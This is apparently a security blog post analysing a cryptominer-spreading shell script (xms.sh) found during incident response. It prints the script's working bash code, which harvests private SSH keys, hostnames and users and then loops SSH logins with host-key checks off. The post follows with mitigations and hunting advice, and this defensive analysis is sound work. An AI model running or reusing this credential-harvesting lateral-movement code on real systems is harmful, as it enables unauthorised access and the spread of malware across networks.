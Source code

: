 ```yaml
---
layout: page
title: "Automated Lateral Movement Through SSH"
subheadline: "Lateral Movement Technique"
teaser: "Abusing SSH keys for lateral movement"
categories:
tags: 
header:
    title: "Automated Lateral Movement"
    background-color: "#EFC94C;"
    #pattern: pattern_concrete.jpg
    image_fullwidth: /new-tool-tuesday/winSuperMem/header_cyber-sec.jpg
    caption: Image from unsplash
    caption_url: https://unsplash.com/photos/XJXWbfSo2f0
---
```


## Intro

I was analyzing an adversary’s malicious shell script that was dropped onto a victim host during an incident response investigation and observed a fascinating lateral movement technique simply using `ssh` . The malicious shell script was called `xms.sh` and it’s intended purpose was to install a crypto miner on a victim host, then spread to other hosts the victim host had access to. 

## xms.sh

Below is the lateral movment technique:

```bash
# 3 different ways to find ssh keys
KEYS=$(find ~/ /root /home -maxdepth 2 -name 'id_rsa*' | grep -vw pub)
KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile" '{print $2 }')
KEYS3=$(find ~/ /root /home -maxdepth 3 -name '*.pem' | uniq)

# 3 different ways to find host names on the network
HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" '{print $2}')
HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
HOSTS3=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)

# find all users from the local host
USERZ=$(
    echo "root"
    find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -v "\.ssh"
)

# displays/stores the info found
userlist=$(echo $USERZ | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
hostlist=$(echo "$HOSTS $HOSTS2 $HOSTS3" | grep -vw 127.0.0.1 | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
keylist=$(echo "$KEYS $KEYS2 $KEYS3" | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)

# lateral movement with ssh
for user in $userlist; do
    for host in $hostlist; do
        for key in $keylist; do
            chmod +r $key; chmod 400 $key
            ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host "insert bad command here"
        done
    done
done
```

Let’s break down what is happening.

### Finding ssh keys

The first 3 variables attempt to find private ssh keys on the local host. 

```bash
# 3 different ways to find ssh keys
KEYS=$(find ~/ /root /home -maxdepth 2 -name 'id_rsa*' | grep -vw pub)
KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile" '{print $2 }')
KEYS3=$(find ~/ /root /home -maxdepth 3 -name '*.pem' | uniq)
```

- `KEYS` uses the `find` command to return the file paths of all `id_rsa` private key files.
- `KEYS2` uses the `cat` command to display the contents of all `.ssh/config` files and looks for private ssh key file paths as denoted by `IdentityFile` .
    - [https://linuxize.com/post/using-the-ssh-config-file/#shared-ssh-config-file-example](https://linuxize.com/post/using-the-ssh-config-file/#shared-ssh-config-file-example){:target="_blank"}
- `KEYS3` uses the `find` command to return the file paths for all private ssh keys in the pem format.

### Finding host names

The next 3 variables attempt to find host names of other machines that the victim host has access to.

```bash
# 3 different ways to find host names on the network
HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" '{print $2}')
HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
HOSTS3=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)
```

- `HOSTS` uses the `cat` command to display the contents of all `.ssh/config` files and looks for host names defined within the file.
- `HOSTS2` uses the `cat` comamnd to display the contents of all `.bash_history` files and return all IP addresses.
- `HOSTS3` uses the `cat` command to display the contents of all `known_hosts` files and return all IP addresses.

### Finding valid users

The next variable is used to find all valid user names on the victim host.

```bash
# find all users from the local host
USERZ=$(
    echo "root"
    find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -v "\.ssh"
)

```

- `USERZ` uses the `find` command to return all user names that have an `id_rsa` file.

This is a clever technique to omit any users that don’t use ssh keys. 

### Performing lateral movement

With ssh keys, host names, and valid users found the adversary has everything needed to make ssh connections.

```bash
# lateral movement with ssh
for user in $userlist; do
    for host in $hostlist; do
        for key in $keylist; do
            chmod +r $key; chmod 400 $key
            ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host "insert bad command here"
        done
    done
done
```

Using `for` loops the adversary will enumerate the valid users and perform an ssh connection for every host found using every ssh key found.

 `"insert bad command here"` - this part of the ssh command contained a curl command to have the target ssh host download the malicious `xms.sh` file.

The adversary is also using a timeout period of 5 seconds to speed up the execution time. 

This lateral movement technique is very simple and easy to understand, however it is not perfect.

## Issues and mitigations

This lateral movement technique only works if the adversary has root access. If the adversary only has user level access, then your host’s file ACLs would need to be severely misconfigured for a user to access another user’s private ssh key. But lets assume the adversary has root access.  

### Encrypt private ssh keys

The best defense that will stop this attack completely is to always password encrypt your private ssh key file. Upon creation of an ssh key using `ssh-keygen` , you are asked to set a password for your key. This step can be skipped by simply not setting a password, but no user should ever skip setting a password.

Under some circumstances, you may need to automate an ssh connection and this is where ssh keys not password protected become useful. In this scenario, you should create a new user account to only perform this automation and it’s ssh activity should be closely monitored. 

### Host name hashing

In this lateral movement technique, the adversary uses the `known_hosts` file to pull host names previously connected to. This attack method is not new and OpenSSH has provided a mitigation for it through a config option called HashKnownHosts. Enabling this config option will force the ssh client to hash the host name before logging the information, [read more about his feature](https://techglimpse.com/how-to-hash-known-hosts-files-of-ssh-directory/){:target="_blank"}. 

It should be noted that according to the [ssh_config man page](https://man7.org/linux/man-pages/man5/ssh_config.5.html){:target="_blank"}, this feature is not enabled by default. It’s possible that most modern Linux distros enabled this for you, as my Kali machine already had this feature enabled. For me, this was enabled in file `/etc/ssh/ssh_config` .

With HashKnownHosts on, you can prevent the adversary from discovering additional hosts 

### Bash history

The second method of host discovery from the adversary is by reading the `bash_history` file for every user. Bash history is stored for every bash command executed, even passwords passed on the command line. As a defender, we can configure the `~/.bash_logout` file to clear the bash history after every logout. You could even go as far as to completely disable the logging of bash history. You can learn more about clearing bash history [here](https://www.cyberciti.biz/faq/clear-the-shell-history-in-ubuntu-linux/){:target="_blank"}.

## Threat Hunting

Defenders will always inherit poorly configured machines with poor security standards, so it is important to devise a strategy to detect this lateral movement attack. The adversary will be performing ssh connection attempts with valid user names where some will be successful and some will be unsuccessful. The adversary is only doing one login attempt for every key found for each target host for a given user. I would use a log search tool to look for ssh successful or unsuccessful logins from valid user(s) in a very short time frame. Then I would look further to identify if one host is using multiple user accounts to make the ssh connections.